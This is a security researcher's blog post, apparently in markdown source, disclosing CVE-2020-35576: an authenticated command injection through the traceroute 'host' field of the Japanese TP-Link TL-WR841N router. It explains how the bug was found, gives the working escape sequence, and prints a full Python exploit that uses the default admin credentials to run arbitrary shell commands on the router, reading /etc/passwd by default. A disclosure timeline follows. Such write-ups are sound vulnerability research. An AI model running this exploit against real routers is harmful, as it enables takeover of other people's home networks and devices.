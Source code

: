 ```yaml
---
layout: post
title: TP-Link TL-WR841N Command Injection Exploit (CVE-2020-35576)
published: true
categories: [Cve]
excerpt: I was playing with my <s>pet</s> home router, when I noticed that a parameter seemed to be executed by some form of system(). I tried to escape it and got my first CVE!
---
```


I was playing with my <s>pet</s> home router, when I noticed that a parameter seemed to be executed by some form of system(). I tried to escape it and got my first CVE!

---

## CVE-2020-35576

---


### Affected Firmware 
TL-WR841N(JP)_V13_161028 <br />
<=0.9.1 4.0 v0188.0 Build 161028 Rel.66845n (latest at time of report)

CVSS Base Score: 9.9 | AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H

### Introduction

So, a quick introduction to this router. It was released in 2016 and has been a very popular and cheap ($15) router, ranking top in [Amazon JP](https://amzn.to/2MtULdM) during that year and is still [ranked 37](https://www.amazon.co.jp/gp/bestsellers/computers/2151996051) at time of report.

Although the American release had its latest patch in 2020-11, Japan was still lagging behind by 3 years. It is impossible to officially update the Japanese release of the TL-WR841N router with any overseas patch as the hardware had some region locks. It's also interesting to note that there is no way of changing the language for this router, so people who bought it in Japan are stuck with the Japanese interface.

### Bug Discovery via Traffic Analysis

I was playing around with the features when I noticed a system diagnostic tool that caught my attention. Ping and Traceroute features are often vulnerable and you can find many CVEs for them if you deal with IoT devices like Webcams and Smart Speakers. The challenge would be to escape the context into the system. 

I noticed that when you use the Traceroute feature, a request was sent to the router:

```
[TRACEROUTE_DIAG#0,0,0,0,0,0#0,0,0,0,0,0]0,8
maxHopCount=20
timeout=50
numberOfTries=1
host=127.0.0.1
dataBlockSize=64
X_TP_ConnName=ewan_ipoe_d
diagnosticsState=Requested
X_TP_HopSeq=0
```

This would return an `[error]0` if it was successful, and a non-zero error code if it was not. 

Following which, the client browser would send this request initiating the Traceroute function on the router:

```
[ACT_OP_TRACERT#0,0,0,0,0,0#0,0,0,0,0,0]0,0
```

The router would then reply `[error]0` since there are no errors; to which the client browser would initiate the result request by sending the following payload:

```
[TRACEROUTE_DIAG#0,0,0,0,0,0#0,0,0,0,0,0]0,3
diagnosticsState
X_TP_HopSeq
X_TP_Result
```

And then the router would reply with the following:

```
[0,0,0,0,0,0]0
diagnosticsState=Requested
X_TP_HopSeq=0
X_TP_Result={results}
[error]0
```

All of these requests are essentially user inputs being sent to the router. So we have control over 3 of the requests during the Traceroute call.

Given that we cannot know how the backend works without reversing the firmware, I resorted to using my homemade command injection fuzzer based on popular command injection escape symbols, such as these characters:

```
|  ; & $ > < ` \ !
```

Combining them with context escapes (`"` and/or `'`) with the assumption that the function call for this takes user input in the form of `system("command")`, I discovered that the `host` value in the first request of the Traceroute feature was vulnerable.

Hence I moved on to writing a functionable exploit code which I submitted to the Vendor as additional information. 

### The Exploit

I found that the traceroute command could be escaped with double quotes and a backtick, like this: 
```
"`payload
```
We can mirror the quotes and backtick to prevent syntax error, but it doesn't matter.

This is the full exploit script that should work with the default router configuration. Run the following code with your payload as argument to achieve arbitrary code execution using basic UNIX commands. Be warned that if you do an `rm -rf` or overwrite certain files, you will brick your router permanently and a hard reset will not restore it. You'll have to [buy a new one](https://amzn.to/2MtULdM).

**tplink-CVE-2020-35576.py**
```python
# Author: Koh You Liang (Isopach)
# Exploit Title: TP-Link TL-WR841N OS Command Injection Exploit
# Date: 2020-12-13
# Vendor Homepage: https://www.tp-link.com/
# Software Link: https://www.tp-link.com/jp/support/download/tl-wr841n/v13/#Firmware
# Version: TL-WR841N 0.9.1 4.0
# Tested on: Windows 10, macOS Mojave, Ubuntu 20.04.1 LTS
# CVE: CVE-2020-35576

import requests
import sys
import time

try:
    _ = sys.argv[2]
    payload = ' '.join(sys.argv[1:])
except IndexError:
    try:
        payload = sys.argv[1]
    except IndexError:
        print("[*] Command not specified, using the default `cat etc/passwd`")
        payload = 'cat etc/passwd'

# Default credentials is admin:admin - replace with your own
cookies = {
    'Authorization': 'Basic YWRtaW46YWRtaW4='
}

headers = {
    'Host': '192.168.0.1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'text/plain',
    'Content-Length': '197',
    'Origin': 'http://192.168.0.1',
    'Connection': 'close',
    'Referer': 'http://192.168.0.1/mainFrame.htm',
}

data1 = \
'''[TRACEROUTE_DIAG#0,0,0,0,0,0#0,0,0,0,0,0]0,8\r\nmaxHopCount=20\r\ntimeout=50\r\nnumberOfTries=1\r\nhost="`{}`"\r\ndataBlockSize=64\r\nX_TP_ConnName=ewan_ipoe_d\r\ndiagnosticsState=Requested\r\nX_TP_HopSeq=0\r\n'''.format(payload)
response1 = requests.post('http://192.168.0.1/cgi?2', headers=headers, cookies=cookies, data=data1, verify=False)
print('[+] Sending payload...')

try:
    response1.text.splitlines()[0]
except IndexError:
    sys.exit('[-] Cannot get response. Please check your cookie.')
    
if response1.text.splitlines()[0] != '[error]0':
    sys.exit('[*] Router/Firmware is not vulnerable.')

data2 = '[ACT_OP_TRACERT#0,0,0,0,0,0#0,0,0,0,0,0]0,0\r\n'
response2 = requests.post('http://192.168.0.1/cgi?7', headers=headers, cookies=cookies, data=data2, verify=False)
print('[+] Receiving response from router...')
time.sleep(0.8) # Buffer time for traceroute to succeed

data3 = '''[TRACEROUTE_DIAG#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\ndiagnosticsState\r\nX_TP_HopSeq\r\nX_TP_Result\r\n'''
response3 = requests.post('http://192.168.0.1/cgi?1', headers=headers, cookies=cookies, data=data3, verify=False)


if '=:' in response3.text.splitlines()[3]:
    print('[-] Command not supported.')
else:
    print('[+] Exploit successful!')
    for line_number, line in enumerate(response3.text.splitlines()):        
        try:
            if line_number == 3:
                print(line[12:])
            if line_number > 3 and line != '[error]0':
                print(line)
                if 'not known' in line:
                    break
        except IndexError:
            break


```


### Afterthoughts
They say that the first one is always the hardest and I agree. I never thought I'd ever get a CVE but as my friend said to me that if I stopped playing games for 1 week I'd easily get one. And so I did as he said and got it after a day of tinkering. 

I also would like to thank my company, [3-shake](https://3-shake.com) for letting me do whatever I want during work which resulted in me finding stuff like this.


### Timeline    
TP-Link replied faster than most bug bounty programs that I have worked with and they published an updated firmware very quickly. I had an enjoyable time working with them.

**2020-12-14 19:27:15 JST** - Reported to Vendor (security\[at\]tp-link.com)    
**2020-12-15 18:33:09 JST** - Vendor acknowledgement and reply     
**2020-12-15 22:11:31 JST** - CVE Requested from Mitre    
**2020-12-18 20:33:37 JST** - Sent additional details about impact to Vendor    
**2020-12-20 14:31:57 JST** - CVE-2020-35576 assigned by Mitre       
**2020-12-21 12:10:57 JST** - Informed Vendor about CVE assignment and attack scenario    
**2020-12-21 14:57:08 JST** - Vendor replied saying they will release a new firmware    
**2020-12-21 15:29:10 JST** - Acknowledgement and asked for estimate of release date    
**2020-12-31 18:57:06 JST** - Vendor sent me beta firmware     
**2021-01-02 11:36:58 JST** - Replied to Vendor confirming fixes           
**2021-01-13 12:39:06 JST** - Vendor released updated firmware    
**2021-01-13 14:00:00 JST** - Blog post published                   

### Links 
- [CVE-2020-35576](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35576)
- [TL-WR841N V13 Firmware](https://www.tp-link.com/jp/support/download/tl-wr841n/v13/#Firmware)

***